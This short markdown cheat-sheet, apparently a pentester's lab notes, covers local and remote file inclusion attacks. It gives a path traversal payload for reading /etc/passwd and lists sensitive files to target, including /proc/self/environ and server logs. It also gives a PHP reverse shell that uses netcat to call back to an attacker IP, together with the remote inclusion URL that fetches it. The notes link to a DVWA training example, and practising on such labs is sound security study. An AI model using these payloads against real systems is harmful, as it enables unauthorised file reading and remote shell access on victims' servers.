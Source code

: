 # File Inclusion

## Local
Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```
Intersting files
  - /proc/self/environ
  - /var/log/auth.log
  - /var/log/apache2/access.log  
Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  

## Remote
Exploit
  - Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
``` 
  - Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```
